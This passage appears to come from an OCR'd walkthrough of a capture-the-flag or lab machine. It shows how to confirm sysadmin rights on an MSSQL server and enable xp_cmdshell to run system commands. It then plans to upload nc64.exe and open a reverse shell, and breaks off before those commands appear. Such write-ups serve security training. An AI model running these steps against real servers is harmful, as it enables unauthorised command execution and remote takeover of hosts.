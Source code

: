 

--- Page 8 ---

As a first step we need to check what is the role we have in the server. We will use the command found in
the above cheatsheet:
SELECT is_srvrolemember('sysadmin');


The output is 1 , which translates to True .
In previous cheatsheets, we found also how to set up the command execution through the xp_cmdshell :
First it is suggested to check if the xp_cmdshell  is already activated by issuing the first command:

EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
SQL> EXEC xp_cmdshell 'net user';


--- Page 9 ---


Indeed is not activated. For this reason we will need to proceed with the activation of xp_cmdshell  as
follows:



Now we are able to execute system commands:

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;


--- Page 10 ---



Finally we managed to get a command execution!
Now, we will attempt to get a stable reverse shell. We will upload the nc64.exe  binary to the target
machine and execute an interactive cmd.exe  process on our listening port.
We can download the binary from here.
We navigate to the folder and then start the simple HTTP server, then the netcat listener in a different tab
by using the following commands:


In order to upload the binary in the target system, we need to find the appropriate folder for that. We will
be using PowerShell  for the following tasks since it gives us much more features then the regular
command prompt. In order to use it, we will have to specify it each time we want to execute it until we get
the reverse shell. To do that, we will use the following syntax: powershell -c command
